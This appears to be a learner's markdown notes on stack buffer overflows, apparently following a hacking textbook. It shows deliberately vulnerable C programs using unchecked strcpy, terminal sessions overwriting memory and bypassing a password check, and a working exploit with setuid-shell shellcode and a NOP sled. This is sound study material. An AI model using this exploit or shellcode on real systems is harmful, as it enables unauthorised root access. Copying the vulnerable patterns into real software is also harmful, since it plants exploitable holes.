

#### 0x300 Exploitation

###### Buffer Overflow

C is a high-level programming language, but it assumes that the programmer is responsible for data integrity. If this responsibility were shifted over to the compiler, the resulting binaries would be significantly slower, due to integrity checks on every variable. Also, this would remove a significant level of control from the programmer and complicate the language.

```c
root@kali:~/hacking/booksrc# cat overflow_example.c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
	int value = 5;
	char buffer_one[8], buffer_two[8];

	strcpy(buffer_one, "one"); /* put "one" into buffer_one */
	strcpy(buffer_two, "two"); /* put "two" into buffer_two */

	printf("[BEFORE] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
	printf("[BEFORE] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
	printf("[BEFORE] value is at %p and is %d (0x%08x)\n", &value, value, value);

	printf("\n[STRCPY] copying %d bytes into buffer_two\n\n",  strlen(argv[1]));
	strcpy(buffer_two, argv[1]); /* copy first argument into buffer_two */

	printf("[AFTER] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
	printf("[AFTER] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
	printf("[AFTER] value is at %p and is %d (0x%08x)\n", &value, value, value);
}
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gcc overflow_example.c -o overflow_example
```

```sh
root@kali:~/hacking/booksrc# ./overflow_example
[BEFORE] buffer_two is at 0xbffe894c and contains 'two'
[BEFORE] buffer_one is at 0xbffe8954 and contains 'one'
[BEFORE] value is at 0xbffe895c and is 5 (0x00000005)
Segmentation fault
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./overflow_example 1234567890
[BEFORE] buffer_two is at 0xbfeb969c and contains 'two'
[BEFORE] buffer_one is at 0xbfeb96a4 and contains 'one'
[BEFORE] value is at 0xbfeb96ac and is 5 (0x00000005)

[STRCPY] copying 10 bytes into buffer_two

[AFTER] buffer_two is at 0xbfeb969c and contains '1234567890'
[AFTER] buffer_one is at 0xbfeb96a4 and contains '90'
[AFTER] value is at 0xbfeb96ac and is 5 (0x00000005)
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./overflow_example AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[BEFORE] buffer_two is at 0xbf8c822c and contains 'two'
[BEFORE] buffer_one is at 0xbf8c8234 and contains 'one'
[BEFORE] value is at 0xbf8c823c and is 5 (0x00000005)

[STRCPY] copying 31 bytes into buffer_two

[AFTER] buffer_two is at 0xbf8c822c and contains 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[AFTER] buffer_one is at 0xbf8c8234 and contains 'AAAAAAAAAAAAAAAAAAAAAAA'
[AFTER] value is at 0xbf8c823c and is 1094795585 (0x41414141)
root@kali:~/hacking/booksrc#
```

```c
root@kali:~/hacking/booksrc# cat exploit_notesearch.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
   unsigned int i, *ptr, ret, offset=270;
   char *command, *buffer;

   command = (char *) malloc(200);
   bzero(command, 200); // zero out the new memory

   strcpy(command, "./notesearch \'"); // start command buffer
   buffer = command + strlen(command); // set buffer at the end

   if(argc > 1) // set offset
      offset = atoi(argv[1]);

   ret = (unsigned int) &i - offset; // set return address

   for(i=0; i < 160; i+=4) // fill buffer with return address
      *((unsigned int *)(buffer+i)) = ret;
   memset(buffer, 0x90, 60); // build NOP sled
   memcpy(buffer+60, shellcode, sizeof(shellcode)-1);

   strcat(command, "\'");

   system(command); // run exploit
   free(command);
}
root@kali:~/hacking/booksrc#
```



- Stack-Based Buffer Overflow Vulnerabilities

```c
root@kali:~/hacking/booksrc# cat auth_overflow.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
	int auth_flag = 0;
	char password_buffer[16];

	strcpy(password_buffer, password);

	if(strcmp(password_buffer, "brillig") == 0)
		auth_flag = 1;
	if(strcmp(password_buffer, "outgrabe") == 0)
		auth_flag = 1;

	return auth_flag;
}

int main(int argc, char *argv[]) {
	if(argc < 2) {
		printf("Usage: %s <password>\n", argv[0]);
		exit(0);
	}
	if(check_authentication(argv[1])) {
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("      Access Granted.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
	} else {
		printf("\nAccess Denied.\n");
   }
}
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gcc auth_overflow.c -o auth_overflow
```

```sh
root@kali:~/hacking/booksrc# gcc auth_overflow.c -g -o overflow_example_debug
```

```sh
root@kali:~/hacking/booksrc# ./auth_overflow testr

Access Denied.
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./auth_overflow brillig

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./auth_overflow outgrabe

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./auth_overflow AAAAAAAAAAAAAAAAAAAAAA

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
root@kali:~/hacking/booksrc#
```